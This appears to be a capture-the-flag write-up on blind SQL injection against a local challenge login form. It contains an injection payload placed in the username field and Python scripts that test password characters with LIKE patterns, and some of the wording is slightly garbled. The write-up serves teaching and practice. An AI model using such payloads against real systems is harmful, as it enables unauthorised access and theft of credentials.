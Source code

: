 > Query that we use :

```sql
-- Original query
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"


-- in form username & password we can use OR SQl query which will executes:
SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"
                                               ^^^^^^^^
                                                " OR password LIKE "p%" -- -
-- this will result the output that starts with "p" 

```

* Example : This script where we use the `LIKE` `"a%"` means, it will match the password letter that start with `a`. But, it results error because it's not matched.
```py
import requests
import string

s = requests.Session()

url = "http://challenge.localhost:80"

searchspace = string.ascii_letters + string.digits + '{}_.-'

data = {
    'username': 'flag " OR password  LIKE "a%" -- -',
    'password': 'pass'
    }
response = s.post(url, data=data )
print(response, "\n", response.text)
```

> result : It's not matches with password, resulting error.

```palin
<Response [400]> 
 Invalid `username` or `password`
```

* Now This time we will use the match case : 

* Example : This script where we use the `LIKE` `"p%"` means, it will match the password letter that start with `a`. The result is `Hello` because it's matched.
```py
import requests 
import string

s = requests.Session()

url = "http://challenge.localhost:80"

searchspace = string.ascii_letters + string.digits + '{}_.-'

data = {
    'username': 'flag " OR password  LIKE "p%" -- -',
    'password': 'pass'
    }
response = s.post(url, data=data )
print(response, "\n", response.text)
```
